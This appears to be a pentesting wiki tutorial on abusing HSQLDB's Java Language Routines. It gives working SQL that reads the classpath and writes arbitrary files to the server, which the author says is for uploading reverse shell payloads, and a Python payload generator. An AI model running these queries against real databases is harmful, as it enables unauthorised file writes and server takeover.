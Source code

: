 ```yaml
---
title: Pwning HSQLDB
tags:
  - advanced
  - web-app
  - pentesting
  - hsqldb
  - java
  - sql
---
```


## What is HSQLDB?

[Hyper SQL Database (HSQLDB)](https://en.wikipedia.org/wiki/HSQLDB) is a relational database
management system written in Java - you might occasionally come across it. It's cross-platform,
lightweight, and has a bunch of great features like being able to call static Java methods in the
Java Runtime Environment's (JRE) class path. What's more to love?

## Calling Java Language Routines in HSQLDB

In HSQLDB,
[Java Language Routines (JRTs)](https://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines)
are SQL-Invoked Routines, i.e. functions or procedures, that call methods in the classpath of the
JRE. With JRTs, we can define these SQL functions and pass parameters to these methods invocations.
JRTs that invoke methods that return values are called _functions_. JRTs that invoke methods that
return _void_ are called _procedures_.

### Reconnaissance

So, I keep mentioning the classpath. What is it? Like `PATH`, it's a path of `JAR` files currently
loaded in the JRE of the HSQLDB instance. Like with
[[pwning-serialization|pwning Java serialization]], we need to know what gadgets, i.e. static
methods, are available for abuse. We can execute the following query in HSQLDB to create a function
that invokes the Java `getProperty` method, which we'll use to expose the contents of the classpath:

```sql
 CREATE FUNCTION GetSystemProperty(IN key VARCHAR) RETURNS VARCHAR
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

And the following query exposes the classpath:

```sql
VALUES(GetSystemProperty('java.class.path'))
```

Another useful query, the following query exposes the the current directory HSQLDB is executing
from:

```sql
VALUES(GetSystemProperty('user.dir'))
```

### Uploading files

The juicy stuff. We can create a procedure with the following HSQLDB query, using the
`JavaUtils.writeBytesToFilename` method to write a bytes object to a file. This enables us to do
great things like upload Java reverse shell payloads.

```sql
CREATE PROCEDURE WriteBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

The above procedure has two parameters, `paramString` which is the filename we wish to write to, and
`paramArrayOfByte` which is the byte array of our file we're going to upload. How do we use it? An
example invocation is provided below:

```sql
CALL WriteBytesToFilename('{DEST}', CAST('{PAYLOAD}' as VARBINARY(1024)))
```

Where `DEST` is where we want to write the file, and `PAYLOAD` is the file's contents in hex. "How
do I get the contents of my file in hex?", you say. The following Python script will convert a file
specified by `filepath` to the correct format and will generate a payload that uploads the file to
the specified `dest`:

```python
from argparse import ArgumentParser

WRITE_BYTES_TO_FILENAME_QUERY = """CALL WriteBytesToFilename('{dest}', CAST('{payload}' as VARBINARY(1024)))"""


class Solution:
    def __init__(self, filepath: str, dest: str) -> None:
        self.filepath, self.dest = filepath, dest

    def solve(self) -> None:
        payload = None
        with open(self.filepath, "rb") as file:
            payload = file.read().hex()

        print(WRITE_BYTES_TO_FILENAME_QUERY.format(dest=self.dest, payload=payload))


def main():
    parser = ArgumentParser()
    parser.add_argument("-f", "--filepath", dest="filepath")
    parser.add_argument("-d", "--dest", dest="dest")
    args = parser.parse_args()
    s = Solution(args.filepath, args.dest)
    s.solve()


if __name__ == "__main__":
    main()
```

## Related pages

- [[pwning-postgresql|Pwning PostgreSQL]]
- [[sql-enumeration|SQL enumeration]]
- [[sql-injection|SQL injection]]
